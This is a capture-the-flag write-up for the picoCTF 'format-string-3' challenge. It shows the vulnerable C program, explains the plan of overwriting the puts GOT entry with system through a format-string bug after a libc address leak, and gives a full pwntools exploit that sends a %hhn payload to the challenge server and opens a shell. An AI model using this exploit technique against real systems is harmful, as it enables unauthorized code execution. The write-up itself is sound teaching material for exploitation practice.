



Here are the links to the binary, libc, and linker needed for the problem.
The source code of the binary is as below.
#include <stdio.h>
#define MAX_STRINGS 32
char *normal_string = "/bin/sh";
void setup() {
setvbuf(stdin, NULL, _IONBF, 0);
setvbuf(stdout, NULL, _IONBF, 0);
setvbuf(stderr, NULL, _IONBF, 0);
}
void hello() {
puts("Howdy gamers!");
printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}
int main() {
char *all_strings[MAX_STRINGS] = {NULL};
char buf[1024] = {'\0'};
setup();
hello();
fgets(buf, 1024, stdin);
printf(buf);
puts(normal_string);
return 0;
}
Since normal_string is "/bin/sh", I realized if I could overwrite the .got.plt entry of puts
with the address of system then I could gain shell access. Doing a quick checksec revealed that the binary
doesn't utilize PIE, meaning that the address to the .got.plt is fixed. And as you can see in the source code, the program
provides the address of setvbuf, making it trivial to gain the runtime address of libc base and additionally the address of
system.

Below is the diagram of the stack when printf(buf) is called.

I used the format string bug present to overwrite the .got.plt entry of puts. However, since the address of system
changes every time the program runs, I had to first sort each byte of the address from smallest to largest, create a dictionary mapping
each byte to its original index in the byte string, calculate the difference between neighboring sorted bytes, and then construct an algorithm which
generates the payload that overwrites the.got.plt entry correctly using a combination of %ds and %hhns.
Below is what the buffer looks like after the algorithm is run.

The exploit code is as below. I used the format %6$***d where * represents a digit becauase the 6th positional argument
of printf was guaranteed to be 0, based on the source code.
#!/usr/bin/python3
from pwn import *
def ex():
# context.log_level = "debug"
libc = ELF("./libc.so.6")
# p = process("./format-string-3")
p = remote("rhea.picoctf.net", 63373)
puts_got_addr = 0x404018
p.recvuntil(b": ")
setvbuf_addr = int(p.recvline().strip(), 16)
libc_base = setvbuf_addr - libc.symbols["setvbuf"]
system_addr = libc_base + libc.symbols["system"]
print(f"{libc_base=:x}")
print(f"{system_addr=:x}")
system_bytes = list(p64(system_addr))
for i in range(len(system_bytes)):
print(f"{int(system_bytes[i]):x}", end=' ')
print()
byte_map = {}
for i in range(len(system_bytes)):
byte_map[int(system_bytes[i])] = i
print(byte_map)
system_bytes_sorted = sorted(map(int, system_bytes))
diff = [system_bytes_sorted[2]]
for i in range(2, 7):
diff.append(system_bytes_sorted[i+1] - system_bytes_sorted[i])
print(f"{system_bytes_sorted=}")
print(f"{diff=}")
payload = b""
for i in range(0,len(diff)):
payload += f"%6${diff[i]:03d}d%{49+byte_map[system_bytes_sorted[i+2]]}$hhn".encode("ascii")
payload += b"A"*4
for i in range(0,6):
payload += p64(puts_got_addr+i)
print(payload)
p.sendline(payload)
p.interactive()
if __name__ == "__main__": ex()